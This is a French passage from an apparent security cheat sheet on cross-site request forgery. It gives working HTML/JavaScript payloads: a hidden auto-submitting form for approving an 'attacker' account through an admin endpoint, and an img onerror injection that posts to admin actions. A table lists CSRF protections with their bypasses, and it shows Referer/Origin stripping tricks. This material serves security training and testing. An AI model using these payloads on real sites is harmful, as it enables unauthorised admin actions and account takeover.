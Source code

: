 ### <mark style="color:blue;">🔧 Vecteurs d'Injection Spécifiques</mark>

#### Via Page de Contact

```html
<!-- Injecter dans le corps du message -->
<form action="http://target.com/admin/validate" method="post" style="display:none">
    <input type="hidden" name="username" value="attacker">
    <input type="hidden" name="approve" value="true">
</form>
<script>document.forms[0].submit();</script>
```

#### Via Profil/Commentaire

```html
<!-- Si le contenu est affiché aux admins -->
<img src="x" onerror="
var f=document.createElement('form');
f.action='http://target.com/admin/action';
f.method='POST';
f.innerHTML='<input name=param value=malicious>';
document.body.appendChild(f);
f.submit();
">
```

### <mark style="color:blue;">🛡️ Protections et Contournements</mark>

#### Protections Communes

| Protection          | Description                         | Contournement Possible      |
| ------------------- | ----------------------------------- | --------------------------- |
| **Token CSRF**      | Token unique par session/formulaire | Token stealing via XSS/AJAX |
| **SameSite Strict** | Cookie jamais envoyé cross-site     | Aucun contournement direct  |
| **SameSite Lax**    | Cookie envoyé sur navigation GET    | Requêtes GET malveillantes  |
| **Referer Check**   | Vérification header Referer         | Referer vide ou falsifié    |
| **Origin Check**    | Vérification header Origin          | Origin null ou bypass       |

#### Techniques de Contournement

**1. Bypass Referer/Origin**

```javascript
// Supprimer le referer
<meta name="referrer" content="no-referrer">

// Ou utiliser data: URL
data:text/html,<form action="http://target.com/action" method="post">...
```
